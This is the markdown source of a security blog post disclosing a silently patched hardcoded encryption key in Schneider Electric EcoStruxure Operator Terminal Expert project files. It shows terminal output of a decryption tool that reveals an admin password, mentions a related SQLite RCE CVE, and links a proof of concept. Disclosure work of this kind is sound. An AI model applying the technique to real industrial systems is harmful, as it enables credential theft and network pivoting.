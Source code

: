 ```yaml
---
layout: post
title: "Silent Schneider :: Revealing a Hidden Patch in EcoStruxure Operator Terminal Expert"
date: 2020-02-18 10:00:00 -0500
categories: blog
excerpt_separator: <!--more-->
---
```


<p class="cn" markdown="1">Last month, [Chris](https://twitter.com/mufinnnnnnn) and I competed at [Pwn2Own Miami 2020](https://www.thezdi.com/blog/2020/1/21/pwn2own-miami-2020-schedule-and-live-results) targeting several ICS applications. One of the applications that we targeted was the Schneider Electric EcoStruxure Operator Terminal Expert. This blog post talks about a silent patch that was introduced before the competition that subsequently killed several bugs in our exploit chain.</p>
<!--more-->

<p class="cn">TL;DR</p>

<p class="cn" markdown="1">*In this post, one of the bugs that we will be revealed with an exploit released that can help network penetration testers and red teams to pivot through a compromised network.*</p>

## Overview

<p class="cn" markdown="1">As [Cim](https://twitter.com/Cim_Stordal) hints out in his [blog post](https://medium.com/cognite/pwn2own-or-not2pwn-part-1-3f152c44563e), he could pack and unpack project files even through encryption was in play. This is because one of the bugs that was silently patched was a hardcoded cryptographic key that was being used to encrypt and decrypt the project file.</p>

## Vulnerable Versions

<p class="cn" markdown="1">Since this was a silent patch, let's be clear about what was vulnerable and what is not. The `EcoStruxure Operator Terminal Expert V3.1.iso` installer with the SHA1 hash `386312d68ba5e6a98df24258f2fbcfb2d8c8521b` *is vulnerable* however the `EOTE3.1SP1.iso` installer with the SHA1 hash `b659bcea11e8bbbed3faf4ad1cabd566116f72f5` **is not vulnerable**.</p>

## Impact

<p class="cn" markdown="1">The project file (.vxdz) file was a simple zip file that could be extracted.</p>

```
saturn:~ mr_me$ unzip -d sample sample.vxdz 
Archive:  sample.vxdz
 extracting: sample/Alarm.db         
 extracting: sample/AllDataLogging.dat  
 extracting: sample/contents.inf     
 extracting: sample/Converters.dat   
 extracting: sample/hierarchy.inf    
 extracting: sample/Language.db      
 extracting: sample/logging.dat      
 extracting: sample/Project.dat      
 extracting: sample/Recipe.Binding.dat  
 extracting: sample/Recipe.db        
 extracting: sample/RecipeControls.dat  
 extracting: sample/scripts.inf      
 extracting: sample/Security.db      
 extracting: sample/SystemKeypad.inf  
 extracting: sample/Target.Binding.dat  
 extracting: sample/Target.dat       
 extracting: sample/Validations.dat  
 extracting: sample/Variables.db     
 extracting: sample/Screens/panel1.binding.dat  
 extracting: sample/Screens/panel1.dat  
 extracting: sample/Scripts/panel0.binding.dat  
 extracting: sample/Scripts/panel0.dat  
 extracting: sample/[Content_Types].xml  
saturn:~ mr_me$ file sample/Security.db
sample/Security.db: data
saturn:~ mr_me$ strings sample/Security.db 
]3uU
B[]~
J|)o
JdnAq
ER$_0
pPQ$M
```

<p class="cn" markdown="1">When attempting to determine the file types of the .db files and/or inspect the content, we quickly see that the files are encrypted (and compressed using deflate). Normally this wouldn't be an issue, but the Security.db file can contain sentive information such as usernames and passwords.</p>

```
saturn:~ mr_me$ ./eco.py 
(+) usage: ./eco.py <projectfile> [options <pack/unpack>]
(+) eg: ./eco.py sample.vxdz unpack
(+) eg: ./eco.py sample.vxdz pack
saturn:~ mr_me$ ./eco.py sample.vxdz unpack
(+) unpacking to sample
(+) unpacking: sample/Validations.dat
(+) unpacking: sample/Screens/panel1.binding.dat
(+) unpacking: sample/Recipe.Binding.dat
(+) unpacking: sample/RecipeControls.dat
(+) unpacking: sample/hierarchy.inf
(+) unpacking: sample/Alarm.db
(+) unpacking: sample/Recipe.db
(+) unpacking: sample/Project.dat
(+) unpacking: sample/Screens/panel1.dat
(+) unpacking: sample/Language.db
(+) unpacking: sample/scripts.inf
(+) unpacking: sample/Target.Binding.dat
(+) unpacking: sample/Target.dat
(+) unpacking: sample/AllDataLogging.dat
(+) unpacking: sample/logging.dat
(+) unpacking: sample/Scripts/panel0.binding.dat
(+) unpacking: sample/Scripts/panel0.dat
(+) unpacking: sample/Converters.dat
(+) unpacking: sample/Security.db
(+) unpacking: sample/SystemKeypad.inf
(+) unpacking: sample/Variables.db
(+) unpacking: sample/contents.inf
(+) unpacking: sample/[Content_Types].xml
(+) unpacked and decrypted: sample.vxdz
saturn:~ mr_me$ file sample/Security.db 
sample/Security.db: SQLite 3.x database, last written using SQLite version 3008010
saturn:~ mr_me$ strings sample/Security.db | grep admin
admins
admin09cfb7e71f097ebfed99e3ca3ba5d8b9e26162e19d03949566df9a12097d3bb2
adminthe master admin userThisIsASecretPassword!^L4G
saturn:~ mr_me$
```

<p class="cn" markdown="1">Using the tool we developed, it's possible to expose passwords inside of .vdxz files and in the example above, we can see that the password `ThisIsASecretPassword!` was exposed.</p>

<p class="cn" markdown="1">Furthermore, details of SQLite fts3_tokenizer Untrusted Pointer Remote Code Execution Vulnerability aka [CVE-2019-8602](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-8602) was released in Checkpoint's excellent blog [post](https://research.checkpoint.com/2019/select-code_execution-from-using-sqlite/).</p>

<p class="cn" markdown="1">Not only was the FTS3 extension enabled in the SQLite binary for EcoStruxure Operator Terminal Expert, but it was also using an outdated version as well: `3.8.0.1`.</p>

```
saturn:~ mr_me$ file sample/Security.db 
sample/Security.db: SQLite 3.x database, last written using SQLite version 3008010
```

<p class="cn" markdown="1">The checkpoint blog post had all the formula to craft a working RCE exploit using just CVE-2019-8602.</p>

## Patch

<p class="cn" markdown="1">The patch that Schneider released in SP1 was essentially to encrypt files using a per project password, instead of using a hardcoded encryption key.</p>

{% include image.html
            img="assets/images/silent-schneider-revealing-a-hidden-patch-in-ecostruxure-operator-terminal-expert/patch.png"
            title="A per project password warning"
            caption="A per project password warning"
            style="width:50%;height:50%" %}

## Conclusion

<p class="cn" markdown="1">Whilst no CVE was issued, having knowledge of the hardcoded key may aid in network pivoting as sensitive information can be revealed if .vdxz files are found within a network.</p>

<p class="cn" markdown="1">An advisory and poc exploit can be found [here](/advisories/src-2020-0010/).</p>